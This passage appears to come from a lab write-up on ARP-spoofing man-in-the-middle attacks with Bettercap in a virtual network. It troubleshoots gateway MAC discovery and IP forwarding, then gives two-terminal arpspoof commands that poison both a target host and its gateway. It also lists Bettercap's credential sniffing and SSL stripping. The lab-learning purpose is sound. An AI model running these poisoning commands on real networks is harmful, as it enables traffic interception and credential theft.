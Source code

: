 ### Issue: "Could not find mac for 172.16.236.2"

**Cause**: Bettercap couldn't discover the gateway's MAC address.

**Solutions**:
```bash
# Clear ARP cache
sudo ip neigh flush all

# Manually populate ARP cache
ping -c 3 172.16.236.2

# Verify gateway is reachable
ip route show
```

### Issue: ARP cache not poisoned on Windows

**Possible causes**:
1. Windows has static ARP entries
2. Network interface in VM not set to promiscuous mode
3. IP forwarding not enabled on Kali

**Verify IP forwarding**:
```bash
# Check current setting
cat /proc/sys/net/ipv4/ip_forward

# Should return 1. If not, enable it:
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```

---

## Comparison: Bettercap vs Arpspoof

I initially tested with `arpspoof` before switching to Bettercap:

**Arpspoof method** (requires two terminals):
```bash
# Terminal 1 - Spoof target
sudo arpspoof -i eth0 -t 172.16.236.145 172.16.236.2

# Terminal 2 - Spoof gateway
sudo arpspoof -i eth0 -t 172.16.236.2 172.16.236.145
```

**Bettercap advantages**:
- ✅ Single command with `fullduplex` option
- ✅ Built-in packet sniffing and credential parsing
- ✅ Automation via caplets
- ✅ Better visualization and logging
- ✅ More features (DNS spoofing, SSL stripping, etc.)

---
